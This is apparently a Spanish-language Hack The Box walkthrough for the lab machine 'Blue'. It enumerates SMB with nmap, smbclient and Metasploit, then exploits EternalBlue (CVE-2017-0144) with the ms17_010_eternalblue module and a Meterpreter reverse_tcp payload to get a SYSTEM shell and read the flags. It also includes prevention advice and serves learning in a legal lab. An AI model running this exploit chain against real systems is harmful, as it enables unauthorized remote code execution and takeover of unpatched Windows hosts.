 ```yaml
---
{"-publish":true,"permalink":"/hack-the-box/machines/easy/blue/","PassFrontmatter":true}
---
```


Empezamos realizando un escaneo de nmap

```
nmap -sCV 10.10.10.40 -T5 -oN blue_machine -v
```

![Pasted image 20250522000912.png](/img/user/imgs/Pasted%20image%2020250522000912.png)
Observamos que tenemos algunos puertos importantes como el 139 o 445.

Procederemos a hacer una enumeracion basica de smb con el objetivo de detectar el sistema operativo, nombre de host y dominio del equipo remoto.

```
nmap -p 139,445 --script=smb-os-discovery 10.10.10.40
```

![Pasted image 20250522001503.png](/img/user/imgs/Pasted%20image%2020250522001503.png)

Descubrimos que el hostname de Blue vienea ser 'haris-PC', tambien descubrimos que el sistema operativo corriendo en la maquina objetivo es **windows 7**.

Vamos a descubrir cuantos recursos compartidos hay en Blue.

```
nmap -p 445 --script=smb-enum-shares 10.10.10.40
```

Nos retorna lo siguiente, quiere decir que el puerto esta siendo filtrado por un firewall. Es decir, el paquete fue enviado, pero no recibio ninguna respuesta
![Pasted image 20250522002159.png](/img/user/imgs/Pasted%20image%2020250522002159.png)

Al igual con el puerto 139:

![Pasted image 20250522002327.png](/img/user/imgs/Pasted%20image%2020250522002327.png)

Si listamos con smbclient nos sale lo siguiente:
```
smbclient -L //10.10.10.40 -N
```

![Pasted image 20250522002414.png](/img/user/imgs/Pasted%20image%2020250522002414.png)

Pero por practica vamos a usar msfconsole:

- Empezaremos buscando modulos smb utiles:
```
	- search type:auxiliary smb
```

Veremos varios resultados, pero los mas utiles para enumeracion son:

- **auxiliary/scanner/smb/smb_enumshares**
- **auxiliary/scanner/smb/smb_enumusers**
- **auxiliary/scanner/smb/smb_version**
- **auxiliary/scanner/smb/smb_login** (si tienes credenciales)

## Enumerar recursos compatidos smb (shares)
Usaremos credenciales por defecto como por ejemplo: guest

- set RHOSTS 10.10.10.40
- set THREADS 5
- set SMBUser guest
- set SMBPass ""
- run

![[Pasted image 20250522003301.png\|Pasted image 20250522003301.png]]

## Enumerar usuarios smb (users)

![[Pasted image 20250522003642.png\|Pasted image 20250522003642.png]]

Aqui podemos ver que el usuario guest, no tiene permisos suficientes para poder enumerar usuarios, intentaremos con los usuarios.

## Como hemos encontrado recursos compartidos procederemos a ingresar

Para interactuar con los recursos compartidos usaremos smbclient:

```
smbclient //10.10.10.40/shares -N
```

Los unico recursos compartidos con los cuales podemos interactuar son dos: **Share** y **Users**

Intentamos con **Share**:

![Pasted image 20250522160800.png](/img/user/imgs/Pasted%20image%2020250522160800.png)

Intentamos con "Users"

![Pasted image 20250522004743.png](/img/user/imgs/Pasted%20image%2020250522004743.png)

Nada interesante el los recursos compartidos.

Investigando un poco, vemos que existe una vulnerabilidad llamada EternalBlue la cual afecta principalmente a versiones de Windows que tienen el servicio SMBv1 habilitado y sin parches. Fue explotada por el exploit EternalBlue, filtrado por el grupo Shadow Brokers en 2017, y se identifica como:

CVE-2017-0144

Los sisemas que son vulnerables a EternalBlue (si no tienen el parche):

- Windows XP
- Windows Vista
- Windows 7
- Windows 8 (menos comun, pero puede verse afectado)
- Windows Server 2003
- Windows Server 2008
- Windows Server 2012 (en cietas configuraciones con SMBv1)
- Windows 10 (anteriores a marzo de 2017, sin parche)

Que permite hacer EternalBlue?:
- Ejecucion remota de codigo (RCE) a traves del puerto 445/TCP (SMB).
- Se usa para obtener shells remotas sin autenticacion.
- Se popularizo en malware como WannaCry y NotPetya.

Recomendaciones para prevenir:
1. Deshabilitar SMBv1 si no es necesario.
2. Aplicar todos los parches de seguridad de Windows.
3. Bloquear el puerto 445/TCP en firewalls cuando sea posible.

Procedere a probar con un payload de nmap para verificar si esta maquina Windows 7 es vulnerable a EternalBlue.

```
nmap -p 445 --script smb-vuln-ms17-010 10.10.10.40
```

![Pasted image 20250522163445.png](/img/user/imgs/Pasted%20image%2020250522163445.png)

O tambien podemos usar el siguiente payload para enumerar vulnerabiliades conocidas en el SMB:

```
nmap -p 445 --script smb-vuln* 10.10.10.40
```

![Pasted image 20250522163652.png](/img/user/imgs/Pasted%20image%2020250522163652.png)

Algunos payloads extras:
- nmap -p 445 --script smb-enum-shares,smb-enum-users,smb-vuln* ip (escaneo combinado completo de SMB)
- nmap -p 445 --script smb-os-discovery,smb-protocols ip (verificar version de SMB y detalles del servidor)
- sudo nmap --script-updatedb (asegurarnos de que nmap tenga los scripts habilitados)

Una vez que hemos identificado la vulnerabilidad, usaremos msfconsole para explotarla.

Iniciamos el msfconsole:

- msfconsole

Cargamos el exploit:

- use exploit/windows/smb/ms17_010_eternalblue

Verificamos las opciones:

- show options

Establecemos la IP del objetivo:

- set RHOSTS 10.10.10.40

Seleccionamos el payload (por ejemplo, Meterpreter):

- set PAYLOAD windows/x64/meterpreter/reverse_tcp
Si el sismte es de 32 bits, usa: windows/meterpreter/reverse_tcp

En este casoo el payload que sirve es el de **x64**

![Pasted image 20250522164803.png](/img/user/imgs/Pasted%20image%2020250522164803.png)

Damos un **shell** en el meterpreter y tenemos nuestra consola de windows interactiva:

![Pasted image 20250522165214.png](/img/user/imgs/Pasted%20image%2020250522165214.png)


Para ver el usuario con el que se ejecuta el exploit usamos **whoami**: 

- nt authority\system

Para encontrar el user.txt nos vamos al usuario **haris**:

- type user.txt

![[Pasted image 20250522165350.png\|Pasted image 20250522165350.png]]

Al igual para el root nos vamos a **Administrator**:

![[Pasted image 20250522165441.png\|Pasted image 20250522165441.png]]

thansk.